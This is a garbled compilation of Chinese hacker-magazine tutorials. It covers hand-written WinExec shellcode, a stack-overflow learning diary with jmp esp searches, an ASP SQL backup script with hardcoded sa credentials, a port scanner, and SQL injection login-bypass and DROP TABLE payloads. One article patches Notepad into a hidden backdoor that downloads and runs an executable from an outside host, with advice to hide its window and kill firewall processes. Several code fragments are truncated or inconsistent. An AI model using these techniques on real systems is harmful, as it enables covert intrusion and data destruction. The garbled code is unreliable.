执行到这里我们就已经得到了一个 CMD 窗口了，可是仅仅这样还不行，我们还需要恢复现场。程序的完整代码如下：

开始来些代码吧！首先新建一个 test.asm 文件，用记事本打开后，在第一行写入 `[BITS 32]`，然后把 VC 中的下面代码复制到 test.asm 中：

```asm
[BITS 32]
push ebp
mov ebp,esp
sub esp,4h
push ebx
push esi
push edi
mov byte [ebp-4],63h
mov byte [ebp-3],6Dh
mov byte [ebp-2],64h
mov byte [ebp-1],0
push 5
lea eax,[ebp-4]
push eax
mov eax,0x77e69c1d
call eax
pop edi
pop esi
pop ebx
add esp,4h
mov esp,ebp
pop ebp
ret
```

```asm
push ebp
mov ebp,esp
sub esp,4h ; 这里修改为4字节
push ebx
push esi
push edi
```

上面这些代码是用来保护现场的，接着我们需要把 CMD 这个字符串保存到堆栈中，接着上面的代码输入：

```asm
mov byte [ebp-4],63h
mov byte [ebp-3],6Dh
mov byte [ebp-2],64h
mov byte [ebp-1],0
```

63h、6Dh、64h 就是 CMD 三个字母的 16 进制表示形式，最后一个 0 代表字符串结束。下面我们就准备调用 WinExec 函数了。大家都知道这个函数是在 KERNEL32.dll 中的，而且每个应用程序都会加载这个动态链接库。这样的话，我们可以先用 jmpesp 程序找到 WinExec 的函数地址，然后调用就可以了。执行 jmpesp 的结果如图 9，把 `0x77E69C1D` 地址记下来，一会用得着。该函数需要两个参数，那么我们现在就开始把参数压栈吧。记住最右面的参数最先入栈，接着上面的程序段输入：

这就是我们的 shell 了。要注意的是如果代码中有 ptr 操作符，那么要记得把它们都删除掉哦，否则 nasm 编译是不会通过的。代码写好了，我们该把它们转成 shellcode 形式了，大家可以用我前面说的手工方法，也可以用刚刚介绍的这款工具。把 test.asm 复制到 shellcode 自动生成工具的解压目录，然后打开 cmd 窗口并来到此目录下，输入如下命令：

```bash
nasm -s -f bin test.asm
```

执行完后会在同目录下生成一个 test 的无后缀文件，这个时候继续输入如下命令：

```bash
shellcode test
```

执行完后会生成一个 TheCode.txt 的文本文件，打开看看里面是什么？如图 10。

就这么简单，把这段 shellcode 放到下面的程序里面进行验证：

```c
char Shellcode[] = "\x55\x89\xE5...";
```

# 黑客编程

```c
"\x05\x00\x00"
"\x00\x8D\x45\xFC\x50\xB8\x1D\x9C\xE6\x77\xFF\xD0\x5F\x5E\x5B\x81"
"\xC4\x04\x00\x00\x89\xEC\x50\xC3";

void main(void)
{
    int (*pfunc)();
    pfunc = (int (*)()) shellcode;
    (int)(*pfunc)();
}
```


编译运行后，如图11，成功了吗？当然这只是个非常简单的 shellcode，编写一个既好又通用的 shellcode 是件很不容易的事，大家多努力吧！不管是手工还是用工具，我们都没有考虑 shellcode 需要变形的情况。

说到 shellcode 变形，我又不得不说这也是很麻烦的。要介绍它，还是需要拿出好多的时间来准备。希望有机会我能给大家介绍，不过这次这个工具又推出了新的版本，这个新版本可以简单对 shellcode 进行异或处理去除 0x00，内附详细说明我这里就不多说了。shellcode 这次我就简单地说到这里了，相信看完我的文章大家也能“玩转” shellcode 了吧，不过至于写出自己的 shellcode 那还是需要各位读者多加努力了哦！OK, see you next time!

> （本文所涉及的全部程序已收录于光盘中）

# 通过 ASP 实现 SQL 数据库的远程备份和恢复

## 一、引言

作为数据库管理人员，数据库的备份和恢复是一项很重要的工作。数据备份是指创建数据库内现存数据的一个副本，这样一旦系统崩溃或出现其他意想不到的问题而导致数据库丢失，就可以通过数据恢复功能将数据恢复到备份时的状态。而数据恢复是指将数据恢复到上一次备份状态。在 SQL Server 数据库中，提供了数据工具可以实现数据库的备份和恢复，但它只能于本机操作，无法实现远程备份。下面我们介绍如何通过 ASP 来实现 SQL 数据库的远程备份和恢复。

彩云生

## 二、实现原理

数据库的备份其实是通过 ASP 程序远程读取数据库，然后将其存于客户端。在 SQL 数据库服务中的“SQLDMO”对象的“SQLServer”方法可以连接 SQL 数据库，“Backup”方法可以实现文件备份。因此，只要合理利用此对象，就可以实现数据库的备份和恢复。

## 三、实现过程

首先通过一个表单，提供一个选项供用户选择是备份还是恢复，通过文本域确定用户备份数据库名和存放路径。当提交后，通过 WEB 地址栏传递参数方式进行参数传递。然后在 ASP 文件中通过 Request 对象接收参数实现不同的操作。

## 1. 选择表单

```html
<HTML><HEAD>
<TITLE>SQL Server 数据库的备份与恢复</TITLE>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</HEAD>
<BODY>
<form method="post" name="myform">
  选择操作：
  <INPUT TYPE="radio" NAME="act" id="act_backup" value="backup"><label for="act_backup">备份</label>
  <INPUT TYPE="radio" NAME="act" id="act_restore" value="restore"><label for="act_restore">恢复</label>
  数据库名：<INPUT TYPE="text" NAME="databasename">
  文件路径：<INPUT TYPE="text" NAME="bak_file" value="c:\$1.bak">
  <input type="submit" value="确定">
</form>
```

## 2. SQL Server 数据库的备份

```vb
<%
dim sqlserver,sqlname,sqlpassword,sqlLoginTimeout,databasename,bak_file,act
sqlserver="localhost"
sqlname="sa"
sqlpassword="sa"
sqlLoginTimeout=15
databasename=trim(request("databasename"))
bak_file=trim(request("bak_file"))
bak_file=replace(bak_file,"$1",databasename)

act=lcase(request("act"))
if databasename="" then
  response.write "input database name"
else
  if act="backup" then
    Set srv=Server.CreateObject("SQLDMO.SQLServer")
    srv.LoginTimeout=sqlLoginTimeout
    srv.Connect sqlserver,sqlname,sqlpassword
    Set bak=Server.CreateObject("SQLDMO.Backup")
    bak.Database=databasename
    bak.Devices=files
    bak.Files=bak_file
    bak.SQLBackup srv
    if err.number>0 then
      response.write err.number & "<font color=red><br>" & err.description & "</font>"
    end if
    Response.write "<font color=green>备份成功!</font>"
  elseif act="restore" then
    Set srv=Connect(sqlserver, sqlname, sqlpassword)
    Set rest=Server.CreateObject("SQLDMO.Restore")
    rest.Action=0
    rest.Database=databasename
    rest.Devices=Files
    rest.Files=bak_file
    rest.ReplaceDatabase=True
    rest.SQLRestore srv

    response.write err.number
    If err.number <> 0 Then
        Response.Write "<font color=red>..."
    End If
    rest.SQLRestore srv
  end if
end if
%>
```

## 3. 恢复数据库

```vb
Set srv=Server.CreateObject("SQLDMO.SQLServer")
srv.LoginTimeout=sqlLoginTimeout
...
```

```html
end if
end if
</BODY></HTML>
```

## 四、结束语

数据库的备份和恢复是一项基础性的工作，如何在线远程实现数据库的备份和恢复，本文提出了解决方法。在 INTERNET 十分发达的今天，此法具有十分重要的意义。

# 用 VB 编写刷 QQ 等级软件

早就知道可以刷 QQ 等级了，在线时间不到 1 分钟按 1 分钟计算，不到 1 小时按 1 小时计算……在 2005 年第 2 期的光盘里有一个刷 QQ 等级的软件，我按其思路做了一个。

```vb
Private Declare Function TerminateProcess Lib "kernel32" (...)
```

```vb
strpath = Text1.Text
' Text1.Text 是设置路径的地方
Private Sub Timer1_Timer()
...
End Sub
```


该软件思路是：先设置 QQ 自动登录，在一定时间后关闭 QQ 进程，再重新启动 QQ。最初想用 SendMessage 发送 WM_CLOSE，但 QQ 只最小化，因此改用 API：OpenProcess 打开句柄，TerminateProcess 结束进程，CloseHandle 关闭对象。

```vb
Declare Function CloseHandle Lib "Kernel32" Alias "CloseHandle" (...)
```

```vb
Private Declare Function OpenProcess Lib "kernel32" (...)
Private Declare Function TerminateProcess Lib "kernel32" (...)
Private Declare Function CloseHandle Lib "kernel32" (...)
Private Declare Function GetTickCount Lib "kernel32" () As Long
Const PROCESS_TERMINATE = &H1
```

```vb
Private Declare Function TerminateProcess Lib "kernel32" (...)
```

好了，上面就是全部代码了。若 Timer1_Timer() 部分写得不好可以自行修改，也欢迎交流。

# C# 黑客编程基础之多线程端口扫描


常见的 TCP 扫描方法有：

- 1. **TCP connect scan（本文采用的方法）**
- 2. **TCP SYN scan**（half-open scanning）
- 3. **TCP FIN scan**
- 4. **TCP ACK scan**
- 5. **TCP SYN/ACK scan**
- 6. **TCP NULL scan**（turn off all flags）
- 7. **TCP Xmas Tree scan**（set all flags）

左栏正文对上述各类扫描方式逐项解释，包括三次握手、SYN/ACK 与 RST 响应差异、不同协议栈行为及 RFC 相关说明。

程序运行结果如图 1、图 2。


其中 1 是我用 IP 对 x 的扫描结果，2 是我用域名对 x 的扫描结果，都显示开放了 21、25、80、110、1433 端口，效果还是不错的。

下面简单讲解一下程序的原理：程序会根据要扫描的端口数量启动同等数量的线程，每个线程连接一个端口；连接成功则提示端口开放，异常则表示端口未开放。

## 大致过程如下：

- 1. 通过主机名获取主机 IP（非必须，但便于显示）。
- 2. 创建一系列线程，每个线程连接一个端口。

代码比较简单，耐心看应该能看懂；不懂可查阅 C#、操作系统原理、计算机网络原理等资料。

```csharp
using System;
using System.Net;
using System.Net.Sockets;
using System.Threading;
class MainClass { ... }
```

```csharp
// 扫描的端口
public static int[] portToScan = {21,23,25,80,110,135,139,1433,3389};

static public void Main() {
    // 通过主机名获取主机 IP
    Console.WriteLine("Please input the URL or IP address");
    string hostName = Console.ReadLine();
    IPHostEntry hostInfo = Dns.GetHostByName(hostName);
    IPAddress[] address = hostInfo.AddressList;
    for (int i=0; i<address.Length; i++) {
        Console.WriteLine("The host's IP: {0}", address[i]);
    }
}
```

```csharp
// 程序第二部分：创建线程并开始扫描
try {
    Thread myThread;
    PortScanner myScanner = new PortScanner(hostName);
    System.Console.WriteLine("Starting port-scanning threads, please wait...");
    for (int i=0; i<portToScan.Length; i++) {
        myThread = new Thread(new ThreadStart(...));
        ...
    }
} catch {
    Console.WriteLine("Unknown host!!!");
}
```

```csharp
// 线程启动与异常输出（节选）
myThreadStart(myScanner.Scan);
myThread.Start();
...
catch(Exception e){
    Console.WriteLine("Exception caught!!!");
    Console.WriteLine(e.Source);
    Console.WriteLine(e.Message);
}
Console.Read();

private class PortScanner {
    private string remoteHost;
    private static int portIndex;
}
```

```csharp
// 端口扫描核心逻辑（节选）
// 使用 Interlocked.Increment(ref portIndex)
public PortScanner(string remoteHost){
    this.remoteHost = remoteHost;
}

public void Scan(){
    int cruPortIndex = Interlocked.Increment(ref portIndex);
    Console.WriteLine("Trying to connect port {0}", portToScan[cruPortIndex]);
    TcpClient client = new TcpClient(remoteHost, portToScan[cruPortIndex]);
}
```

```csharp
// 连接结果输出（节选）
if(...){
    // 连接成功，端口开放
    Console.WriteLine("Port {0} is open", portToScan[cruPortIndex]);
    client.Close();
}
catch{
    // 出现异常，端口未开放
    Console.WriteLine("Port {0} is not open", portToScan[cruPortIndex]);
}
```

相信会有人测试代码，那么请你注意安装 SharpDevelop 软件需要有 Microsoft .NET SDK。程序比较简单，有时间给大家写个简单的蜜罐。（本文所涉及的代码已收录到本期光盘中）

# 逆向工程之


手有点发抖，主要是因为比较激动啊，感觉这是我学 crack 以来最得意的作品（主要是因为我太菜了，最得意的也不过如此）。由于个人水平有限，所以这篇文章应该是菜鸟级中的经典吧。本文抓图比较少，因为抓图实在是麻烦，但不至于影响理解。

- 1. OllyDbg（无论 hack 还是 crack 都常用）
- 2. LordPE（PE 编辑、脱壳、病毒分析、逆向工程常用）
- 3. 记事本（测试用品）
- 4. VC++ 6.0（写代码常用）

> 友情提醒：要看懂本文，你需要以下几方面的知识

- 1. 汇编语言基础知识（栈操作与参数对应关系等）
- 2. OllyDbg 使用经验
- 3. LordPE 的简单应用
- 4. 线程的概念
- 5. 简单的 C 语言基础

## 二、思路篇

个人觉得一个比较好的后门应该是很小、功能简单但有效，重点是能把一个功能强大的后门“塞”到肉鸡上而不易被发现。除非对所有可访问网络的程序做校验（如 MD5/CRC）或反汇编检查，否则很难察觉。

## 三、阻力篇

1. 如何下载一个文件。最初在 MSDN 里翻了很久，后来想到 WinShell 可能具备下载并执行文件的功能，于是开始找源码并分析实现方式。

# 黑客编程

【无进程的实现】真正的无进程是不可能的……本文使用的是记事本的进程。

【无硬盘文件的后门】同样真正无硬盘文件也是不可能的……这种就做到了无硬盘文件。

【无服务】当然不会有服务，因为是和记事本一起启动的嘛。

【无启动项】记事本启动，我们的后门就启动了……不会修改注册表等。

【缺陷分析】大家都知道从网上下载东西是要时间的……

【解决缺陷】还记得前面提到的需要多线程方面的知识吗？……创建线程后再去执行记事本代码。

WinExec，我这里使用 **ShellExecute()**，这个我比较熟悉一些，功能也多些，具体用法请参阅我发表在《黑客 X 档案》上的文章《狗尾续貂折甲谈逆向工程打造隐蔽的后门》。

## 三、实战篇

有了前面的知识，我们写段最简单开一个线程，并在线程里下载并执行功能更加强大的后门代码：

```c
#include <process.h>
#include <windows.h>
#include <urlmon.h>

#pragma comment(lib, "urlmon.lib")

void DownloadAndExecuteFile(void)
{
    if (URLDownloadToFile(0, "http://.../downmp3", "d:\\t.mp3", 0, 0) == S_OK)
    {
        ShellExecute(0, "open", "d:\\t.mp3", 0, 0, SW_SHOW);
    }
}

int main()
{
    _beginthread(DownloadFile, 0, 0);
    Sleep(10000);
    return 0;
}
```

的这个函数：**URLDownloadToFile()**，函数原型可以在 MSDN 中找到：

```c
HRESULT URLDownloadToFile(
    LPUNKNOWN pCaller,
    LPCTSTR   szURL,
    LPCTSTR   szFileName,
    DWORD     dwReserved,
    LPBINDSTATUSCALLBACK lpfnCB
);
```

这里只列出了关键参数，其它的省略了。

```text
Parameters

szURL
Pointer to a string value containing the URL to be downloaded.

szFileName
Pointer to a string value containing the name of the file to create.
```

简单说明如下：

**szURL**：就是你要下载的后门的 URL。  
**szFileName**：下载后保存的文件名。

使用该函数时请注意下面几点：该函数在 urlmon.dll 中（运行时需要），必须使用的头文件为 Urlmon.h（编写代码时需要），使用时需要引入库 Urlmon.lib。

2. 如何执行文件：这个 WinShell 源代码里也有，用的是……

编译之前请先设置相应的选项，否则会提示找不到 _beginthread …… 在 code generation 中选择 multithreaded。编译运行后到 D 盘下面看看，是不是有了 t.mp3，并且开始播放音乐了。


好了，既然成功，那我们就将上面的代码嵌入到记事本里吧……点击如图 1 所示的图标，就可以得到对应的汇编代码。

# 黑客编程

_beginthread 对应的汇编代码：

```asm
_beginthread(DownloadAndExecuteFile,0,10)
004010B8  push 0
004010BA  push 0
004010BC  push offset DownloadAndExecuteFile
004010C1  call _beginthread
```

上面 `00401005` 处是一条跳转指令，跳到 `DownloadAndExecuteFile` 函数地址。

```asm
00401005  jmp DownloadAndExecuteFile (00401020)
```

对应上面的代码来看，可以发现，C 的参数是从右到左依次被压入堆栈的，所以不看 VC 生成的汇编代码，你也应该大概知道对应的汇编代码是什么。下面是另外的关键代码：

```asm
00401048  call URLDownloadToFileA
0040104D  test eax,eax
0040104F  jne  DownloadAndExecuteFile+52h
...
00401055  push 0
00401057  push 0
00401059  push offset string "d:\\t.mp3"
0040105E  push offset string "open"
00401063  push 0
00401065  call dword ptr [__imp__ShellExecuteA@24]
```

只列出部分代码，有兴趣的可以用 VC 查看。注意 `00401059` 和 `0040105E` 两处的 `push` 操作压入的是地址，准确地说是对应字符串的地址，如 `"d:\\t.mp3"` 和 `"open"` 的地址，括号后面的数值表示其地址。

说了这么多终于可以开始了，用 OllyDbg 打开记事本。`Alt+E` 查看引入的 dll，嘿嘿，怎么样？没有找到 `urlmon.dll` 吧，没有关系。用 LordPE 载入记事本，点击 Directories，在 ImportTable 选项点击有几个小点的按钮，然后右键单击，选择“add import”，在 dll 选项中填入 `urlmon.dll`，API 选项中填入 `URLDownloadToFileA`，注意不是 `URLDownloadToFile`，点那个带加号的按钮，OK。

再用 OllyDbg 载入记事本，`Alt+E` 查看引入的 dll，这回看到了 `urlmon.dll`。拖动滚动条到记事本的尾部，找一个都是 `0` 的地方，也就是所谓的 PE 间的空隙，用 OllyDbg 加上对应的汇编代码。注意，这里的汇编代码与 VC 生成的有点不同。

这次我们要后门下载的是一个 exe 文件，在网上随便找的一个。这个要下载并且执行的 exe 文件（注意不是我们嵌入记事本的后门啊）在我的机器上一运行就非法操作，不过没有关系，同样可以证明我们的后门运行良好，因为这个 exe 文件已经下载并且运行了，嘿嘿。要修改的地方如下（用 OllyDbg 修改汇编代码和插入字符串的方法请参阅相关资料，不再详细叙述）：下面是记事本的入口代码：

```asm
01006AE0  6A 70        PUSH 70
01006AE2  68 88180001  PUSH notepad.01001888
01006AE7  E8 ...       CALL notepad.01006CA8
```

修改为：

```asm
01006AE0  E9 F5120000  JMP notepad.01007DDA
01006AE5  90           NOP
01006AE6  90           NOP
```

下面是添加的东西：

```asm
01007D72  db "http://hacker.51.net/test.exe",0
01007D97  db "open",0
01007D9D  db "d:\\t.exe",0
...
01007DB2  PUSH notepad.01007D72
01007DB9  CALL URLDownloadToFileA
01007DBE  POPAD
01007DBF  PUSHAD
...
01007DD2  CALL SHELL32.ShellExecuteA
01007DD7  POPAD
01007DD8  RETN
...
01007DDF  PUSH notepad.01007DA8
01007DE4  CALL msvcrt._beginthread
01007DE9  PUSH 70
01007DEB  PUSH notepad.01001888
01007DF0  JMP notepad.01006AE5
```

需要注意的地方如下：

- 1. `01007D08` 处的 `RETN` 指令作用是返回，否则后门创建的线程无法正常结束。
- 2. 上文 `pushad` 和 `popad` 用于保持堆栈平衡，也可以逐个寄存器入栈/出栈。
- 3. 由于修改了记事本入口，需要补回原本入栈数据。
- 4. 实际使用建议将 `SW_SHOW` 改为 `SW_HIDE`，避免弹窗暴露。

```asm
01006AE0  > 6A 70        PUSH 70
01006AE2    68 88180100  PUSH notepad.01001888
```

```asm
01007DE9    6A 70        PUSH 70
01007DEB    68 88180001  PUSH notepad.01001888
```

```c
#define SW_HIDE 0
#define SW_SHOW 5
```

后门缺陷分析和缺陷解决：嵌入代码手工操作成本高，可考虑通过病毒重定位方式自动嵌入；测试发现防火墙可通过结束防火墙进程或嵌入可联网程序等方式绕过。


最后分享个人经验：学习破解初期常重汇编，后期发现 API 更关键，需重视 MSDN 与数学基础，并加强英语与计算机知识。

> （文中涉及程序 OllyDbg、LordPE 以及相关代码已收录在光盘中）


## 我的 shellcode 学习日记

经过一段时间资料收集与学习，作者决定将 shellcode 学习过程整理为笔记，并尝试将 C 语言形式资料移植到 Delphi，供初学者参考。

王欣

### 10月8号 星期五

今天目标是初步认识 Windows 程序栈溢出漏洞。首先使用 VC 写一个小程序：

```c
#include <stdio.h>
int main(){
  char test[32];
  gets(test);
  for(int i=0;i<32&&test[i];i++) ...
}
```

`gets()` 对输入不做边界检查，可用超长字符串覆盖栈中返回地址。正常输入与溢出输入对比可观察该现象。

```c
printf("\n0x%x", test[i]);
```

当 EIP 指向被覆盖地址（如 `61616161`）且该处无合法指令时，程序会报错。


图2


图3

> 10月9号 星期六

昨天我通过自己的双手认识了一个溢出的大概样子，今天在 Delphi 下也来观察这一现象。写一段 Delphi 代码：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  test1: pchar;
  test: array[0..31] of char;
begin
  test1 := pchar(edit1.text);
  strcpy(test, test1);
end;
```

运行程序，我们看一下 EIP 被覆盖掉的情况（图4）。


图4


图5

再看看 EIP 里面的内容（图5）：果然 EIP 都被 a 的 ASCII 码 `61` 给覆盖掉了。

> 小知识：关于 Windows NT/2000 的内存结构……每个进程在启动时分配 4GB 虚拟内存地址空间。

（中栏长文）主要解释进程虚拟地址空间、用户空间与系统空间划分，以及访问非法地址导致异常的原因。

> 10月9号 星期六

多实验几次就觉得老是输入 “a” 字符很麻烦，为了简化操作，决定从文本中读取字符串来完成溢出。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  buf: array[0..9] of char;
begin
  memo1.Lines.LoadFromFile('overflow.txt');
  strcpy(buf, PChar(memo1.Lines.Text));
end;
```

运行一下，发现这样也可以覆盖 EIP 的值。为了能从文本文件导入字符后也可以在 memo 中增减字符，把代码小小改动一下：

```pascal
procedure TForm1.Button1Click(...)
(Sender: TObject)
begin
  memo1.Lines.LoadFromFile('overflow.txt');
end;

procedure TForm1.Button2Click(Sender: TObject);
var
  buf: array[0..9] of char;
begin
  strcpy(buf, PChar(memo1.Lines.Text));
end;
```

效果如图6。


图6

然后在 VC 下也写同样类似的代码，这个代码是在“Windows 2000 缓冲区溢出入门”里看到的，用来自己动手观察实验现象：在 Visual C++ 开发环境中创建一个新的控制台应用程序，选择 “An Application that supports MFC” 并单击 “Finish”。

```cpp
#include "stdafx.h"
#include <ReadBuff.h>
#ifdef _DEBUG
#define new DEBUG_NEW
#endif

void overflow(char* buf) {
  CFile file;
  CFileException e;
  if(!file.Open("f:/overflow.txt", CFile::modeRead)) return;
  int n = file.GetLength();
  file.Read(buf, n);
}

int _tmain(int argc, TCHAR* argv[], TCHAR* envp[]) {
  // ...
}
```

```cpp
// TODO: change error code to suit your needs
cerr << "VC Fatal Error: MFC initialization failed" << endl;
nRetCode = 1;
...
char buff[10];
overflow(buff);
return nRetCode;
```

这个 C 代码在读入 `overflow.txt` 时候也会发生溢出现象，由于是抄的，少说几句了。

> 10月11号 星期二

在前几天这些例子中，我亲手制造并见识到了溢出现象，但是这只是一个小部分。按我自己对 Win32 Shellcoding 的初步认识，我暂且将它分为三部分：填充、跳转、执行功能代码。以上的例子都是只管往堆栈中跑和填充。目前初学，见到的跳转都是 `jmp esp`，其机器代码为 `FFE4`，所以在内存中搜索 `FFE4`，将其地址找出，也就找到了指令为 `jmp esp` 的地址。

在网上查阅资料，很多这样的 C 代码，以下就是一种算法：

```cpp
/* ffe4.cpp By Backend */
bool we_loaded_it = false;
HINSTANCE h;
TCHAR dllname[] = "User32";
...
if(ptr[y] == 0xFF && ptr[y+1] == 0xE4)
    cout << "OPCODE found at 0x" << hex << pos << endl;
```

```cpp
catch(...)
{
    cout << "END OF " << dllname << " MEMORY REACHED" << endl;
    done = true;
}
if(we_loaded_it) FreeLibrary(h);
```

将其在 VC 下面编译运行，看到在 `USER32.DLL` 中找到一处 `jmp esp` 指令的地址为：`0x77E22F28`，如图7。

> 10月12号 星期三

研究一下这些代码，其实也不难，主要思路就是加载 DLL，从它的基址开始往下搜索，只要该地址的指令为 `FFE4`，就认为该地址是我们所要的。基于这个思路，并且为了透彻理解学到的东西，我们把它移植到 Delphi 下面来实现，代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  addr: PByte;
  h: integer;
begin
  h := getmodulehandle('User32.dll');
  addr := pbyte(h);
  try
    while pword(addr)^ <> word($E4FF) do inc(addr);
  except
    addr := 0;
  end;
  memo1.lines.Add(inttohex(integer(addr),8));
end;
```


```cpp
(addr, 8));
...
```

编译并运行程序，果然也在 `USER32.DLL` 中找到了 `jmp esp` 指令的地址：`77E22F28`，如图8。

> 10月13号 星期三

昨天和前天找到了跳转地址，接下来我们当然应该学习功能执行部分了。为了简单起见，我还是选用了被大家举例都举烂了的小代码 `WinExec("cmd", SW_SHOW);`。代码如图9：然后 `Ctrl+F10`，再 `Alt+8`，进入代码的汇编调试界面，如图10。

```cpp
#include <windows.h>
main()
{
  __asm{
    push ebp
    mov ebp, esp
    // 写入 cmd\0
    mov byte ptr [ebp-4], 63h
    mov byte ptr [ebp-3], 6Dh
    mov byte ptr [ebp-2], 64h
    mov byte ptr [ebp-1], 0
    push 5
    lea eax, [ebp-4]
    push eax
    mov eax, 0x77E87492
    call eax
    mov eax, 0x77E86972
    call eax
    jmp esp
  }
}
```

```cpp
#include <windows.h>
main()
{
  char buf[4];
  buf[0]='c';
  buf[1]='m';
  buf[2]='d';
  buf[3]='\0';
  WinExec(buf, SW_SHOW);
  exit(1);
}
```


```pascal
buf[0] = 'c';
buf[1] = 'm';
buf[2] = 'd';
winexec(buf, sw_show);
exit;
end;
```

代码很简单，运行结果当然和预计一样了，如图13。


上面 `WinExec` 和 `ExitProcess` 的入口地址取得的方法很多，比如自己编程实现。其实实用的 shellcode 应该具备自己搜索不同计算机系统这些函数入口地址的能力，但是考虑我们还在学习阶段，所以还是使用工具来获得。本想去找一个实现此功能的小程序，居然在网上一时没找到，于是还是老老实实使用 VC 自带的工具 Depends 来查看这些地址，如图11。

重要的是看汇编语言的代码，按下 F4 单步运行，然后 `Ctrl+Alt+C` 进入汇编调试界面，看到的代码和 VC 下得到的差不多，如图14。


把图中找到的 `0x00027492` 和 `0x77E60000` 加起来就得到 `WinExec` 的地址 `0x77E87492` 了，同样找到 `ExitProcess` 函数的地址为 `0x77E86972`，运行效果如图12。

可是 Delphi 下的汇编似乎不能拷贝，至少我还不知道如何拷下来。只好把先前 VC 下得到的汇编拿到 Delphi 下测试是否运行通过，反正它们得到的汇编代码几乎是一样的。于是新建一个 Delphi 的工程，加一个按钮后输入代码：


```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
asm
  push ebp
  mov ebp, esp
  push ebx
  mov byte ptr [ebp-4], 63h
  mov byte ptr [ebp-3], 6Dh
  mov byte ptr [ebp-2], 64h
  mov byte ptr [ebp-1], 0
  mov esi, esp
  push 5
  lea eax, [ebp-4]
  push eax
  mov eax, $77E87492
  call eax
end;
```

到了这一步，昨天的内容应该拿到 Delphi 下去加深理解了，所以接下来我们打开 Delphi 7 编译器，写下这些代码：

```pascal
procedure TForm1.Button1Click(Sender: TObject)
var
  buf: array[0..3] of char;
begin
```

# 黑客编程

```asm
push
; 把 ExitProcess 函数的入口地址放进 eax
mov eax, 677E6972
call eax
jmp esp
end
end
```

图15

运行效果如图15。好了，可以看出我们的汇编代码是合乎要求的了，下面我来把它变成机器码：本来是在汇编调试界面把机器码抄下来，但那个简直就是可怕的体力劳动，一不小心还会出错。

现在网上不是有个叫做“ASM_2_ShellCode 自动转换工具”的小瓢虫吗，有些网站上面的“ShellCode 自动转换工具”是个早期版本，它生成的 code 有 0x00，所以还是用“ASM_2_ShellCode 自动转换工具”好一些。

图16

- 1. 首先把汇编语言代码用文本文件整理出来，去掉代码里面的 `ptr`，比如 `mov byte ptr [ebp-14h],'S'` 应该改写成 `mov byte [ebp-14h],'S'`，然后在第一行写上 `BITS 32`，再把后缀改成 asm，比如 `test.asm`。
- 2. 用 nasm 编译，命令如下：`nasm -s -fbin test.asm`
- 3. 使用 Xor 工具处理生成的 test，命令如下：`Xor test 0x95 >> afterxor.asm`
- 4. 用 nasm 编译新的 asm 文件 `afterXor.asm`，命令如下：`nasm -s -fbin afterXor.asm`，将生成 afterxor 文件。
- 5. 最后使用 Shellcode 生成机器所需 code，命令如下：`shellcode AfterXor`，最终就生成了 `TheCode.txt` 文件。

用来测试一下，通过运行，得到本地的 cmd shell，如图16。好了，现在学习 shellcode 的三段都已经实验成功了，只需要把填充、跳转、功能代码有目的准确组合，就基本上初步学会了 shellcode 的编程思路；如果再加上自动搜索函数地址，再把我们开 cmd 的那段代码换成其他更有实用功能的代码，我们写出来的 shellcode 就更有实用价值了。

SQL Injection 攻击，自从上个世纪九十年代起，一直是网上最常见的攻击方式之一，不少网站深受其害。那些只会背几个攻击代码的“公式菜鸟”让网管们头痛不已，很多网管朋友都会采取加固系统、打上最新补丁等措施来防范这种攻击。但是这样“亡羊补牢”的方法存在普遍性，网站被攻击主要问题出在程序上，这一点却往往被忽视。在此期间的《黑客 X 档案》中，关于 SQL Injection 攻击的文章数不胜数，都在疯狂介绍攻击技术。然而有攻必有防，于是有了此文。

## 一、漏洞剖析

我们首先对网站进行“解剖”分析，看看它是如何被攻击的，下面是用于身份验证的登录页面核心代码：

```asp
<%@ Import Namespace="System.Data.SqlClient" %>
<html>
<body>
<h1>Please Log In</h1>
<form runat="server">
<table cellpadding="5">
<tr>
  <td>User Name:</td>
  <td><asp:TextBox ID="UserName" RunAt="server" /></td>
</tr>
<tr>
  <td>Password:</td>
  <td><asp:TextBox ID="Password" TextMode="Password" RunAt="server" /></td>
</tr>
<td>
  <asp:Button Text="Log On" OnClick="OnLogin" RunAt="server" />
</td>
</table>
</form>
<h3><asp:Label ID="Output" RunAt="server" /></h3>
</body>
</html>

<script language="C#" runat="server">
void OnLogin(Object sender, EventArgs e) {
    // Authenticate(UserName.Text, ...)
}
```

```csharp
PasswordText();
Output.Text = "Welcome";
UserName.Text ...
Output.Text = "Invalid login";

bool Authenticate(string username, string password) {
    SqlConnection connection = new SqlConnection(...);
    connection.Open();
    String.Format("select count(*) from users where ...");
    SqlCommand command = new SqlCommand(cmdText, connection);
    int count = (int)command.ExecuteScalar();
    return (count > 0);
    connection.Close();
}
```

从这段代码中可以看到，这个登录页面使用一个名为 `WebLogin` 的 SQL Server 数据库，生成这个数据库的脚本代码如下：

```sql
CREATE DATABASE WebLogin
GO
USE WebLogin
GO
CREATE TABLE Users (
  UserName varchar(32) NOT NULL,
  Password varchar(32) NOT NULL
)
GO
INSERT INTO Users (UserName, Password) VALUES ('mgc', '123456')
INSERT INTO Users (UserName, Password) VALUES ('abc', 'qwerty')
GO
```

这个数据库中包含一个 `Users` 表，保存了“用户名/密码”对。登录页面通过对 `Users` 表执行 `SELECT COUNT` 命令来验证用户输入凭证的有效性。如果用户输入用户名“mgc”、密码“123456”，则进行如下查询：

```sql
SELECT COUNT(*)
FROM Users
WHERE UserName='mgc'
  AND CAST(Password AS VARBINARY)=CAST('123456' AS VARBINARY)
```

在这个查询中，如果 `Users` 表中存在匹配的“用户名/密码”对，就返回符合查询的记录数为 1，否则为 0。通过验证后会进入欢迎界面，验证失败则显示“Invalid login”消息。

看到这里也许你会说，这种验证方法不是很合理吗？其实不然。看下面几个例子你就会发现，这种验证对 SQL Injection 攻击是完全敞开的。

在登录页面中试着输入用户名：`' OR 1=1--`（不含引号，下同），密码为空，你会惊奇地发现它竟然轻易通过了验证。

```sql
SELECT COUNT(*) WHERE
UserName='' OR 1=1 -- '
AND CAST(Password AS VARBINARY)=CAST('' AS VARBINARY)
```

上面的查询执行逻辑中，`UserName=''` 为假，`1=1` 为真，`OR` 后整体为真，而 `--` 后为注释，导致 `AND` 子句失效，因此该验证返回 true。

如果你想知道 SQL Injection 攻击的危害究竟有多大，那么请看下面这个例子：在登录页面输入用户名：`' OR 1=1;DROP TABLE USERS--`，密码任意。确认后可能会发现数据库里找不到 `Users` 表。

```sql
SELECT COUNT(*) WHERE
